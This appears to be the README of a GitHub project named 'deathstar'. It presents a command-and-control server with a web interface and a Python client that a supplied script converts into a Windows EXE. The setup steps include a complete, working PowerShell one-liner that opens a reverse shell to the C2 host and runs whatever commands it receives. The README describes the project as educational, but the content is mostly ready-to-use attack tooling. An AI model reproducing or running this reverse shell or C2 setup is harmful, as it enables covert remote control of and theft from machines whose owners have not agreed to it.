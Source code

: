 # deathstar
Build and understand C2 infrastructure.

`Deathstar` has a webpage, or a CLI based C2 connection manager.

`stardestroyer.py` is the "preffered" option to connecting to the C2 server.

`converter.sh` will convert `stardestroyer.py` into an EXE.

# Deathstar web page
<img width="991" alt="Screenshot 2024-12-21 at 12 46 55 AM" src="https://github.com/user-attachments/assets/6a6addfc-2875-47ff-bb39-ac332fa91f11" />

# Download deathstar

```git clone github.com/bwithe/deathstar```


# Web C2 server 
1. Start the server
    - `python3 deathstar.py`
2. Open link in web browser
    - `firefox 127.0.0.1:8000`
3. Modify `client.py` Deathstar IP
4. Have CLIENT connect to C2
    - Linux / MacOS
      - `python3 client.py`
    - Windows
        - `powershell -nop -c "$c=New-Object System.Net.Sockets.TCPClient('<DEATHSTAR_IP>',443);$s=$c.GetStream();$s.Write([byte[]](@(0x0A)),0,1);while($true){$b=[byte[]]::new(1024);$r=$s.Read($b,0,1024);$t=[text.encoding]::ASCII.GetString($b,0,$r).Trim();if($t -eq 'die'){exit};if($t -eq 'hostname'){$o=$env:COMPUTERNAME}elseif($t -eq 'whoami'){$o=$env:USERNAME}else{$o=iex $t 2>&1|Out-String};$o=$o.Trim()+[char]10;$d=[text.encoding]::ASCII.GetBytes($o);$s.Write($d,0,$d.Length)}"`
